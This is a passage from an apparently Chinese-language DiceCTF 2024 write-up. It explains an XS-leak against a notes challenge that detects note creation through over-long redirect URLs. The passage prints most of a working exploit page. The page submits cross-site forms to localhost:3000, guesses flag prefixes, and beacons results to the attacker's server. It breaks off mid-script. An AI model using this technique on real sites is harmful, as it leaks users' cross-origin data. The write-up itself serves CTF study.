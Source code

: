 ``` html
    setInterval(() => {
      fetch('/timeout'+count)
      count++
      try {
        let r = win.location.href
        fetch('/?r=' + r)
      } catch(err) {
        fetch('/err')
      }
    }, 500)
      
  </script>

</body>

</html>
```

當我建立長度只有 2 的 note 時，網址在限制之內，因此正常開啟新的頁面，去拿 `win.location.href` 會觸發 cross-origin 的錯誤。

![p1](/img/dicectf-2024-writeup/p1.png)

但如果是建立長度 20000 的 note 時，重新導向的頁面網址太長，所以觸發錯誤，導致新開的頁面變成了 `about:blank`，不會觸發錯誤。

![p2](/img/dicectf-2024-writeup/p2.png)

因此，確實可以靠著網址長度這一點，得知 note 到底有沒有建立成功。

最後的 exploit 如下：

``` html
<!DOCTYPE html>
<html>
<body>
  <form id=f  method="POST" target="winForm">
    <input id=inp name="text" value="">
  </form>

  <form id=f_delete action="http://localhost:3000/remove" method="POST" target="_blank">
    <input name="index" value="0">
  </form>

  <form id=f_create action="http://localhost:3000/create" method="POST" target="_blank">
    <input id=inp2 name="text" value="">
  </form>

  <script>
    const sleep = ms => new Promise(r => setTimeout(r, ms))
    fetch('/hang')
    win = window.open('about:blank', 'winForm')

    f.action = 'http://'+ 'a'.repeat(2097050)  + ':def@localhost:3000' + '/create'

    let count = 0
    setInterval(() => {
      fetch('/ping_' + count)
      count++
    }, 100)

    // abcdefghijklmnopqrstuvwxyz
    async function main() {
      // step1. create note
      let testPayload = 'dice{xs'
      fetch('/step_1_start')
      inp2.value = testPayload + 'z'.repeat(10000)
```